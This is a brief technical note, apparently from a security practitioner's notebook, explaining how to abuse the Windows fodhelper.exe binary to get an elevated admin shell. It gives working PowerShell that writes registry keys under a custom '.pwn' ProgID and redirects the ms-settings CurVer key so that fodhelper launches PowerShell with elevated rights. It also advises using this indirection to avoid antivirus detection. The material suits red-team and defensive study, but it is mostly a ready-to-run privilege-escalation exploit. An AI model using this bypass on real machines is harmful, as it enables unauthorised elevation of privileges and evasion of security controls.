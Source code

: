 # Exploiting the Windows "Feature on Demand" Helper

author:: Nathan Acks  
date:: 2022-09-02

The fodhelper binary can be abused to gain an admin shell on Windows boxes with a couple of registry key changes. They key (heh) here is to use the CurVer registry key to point fodhelper.exe to a different registry location; otherwise most AV solutions will catch this change and block it (though sometimes the command will still execute).

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
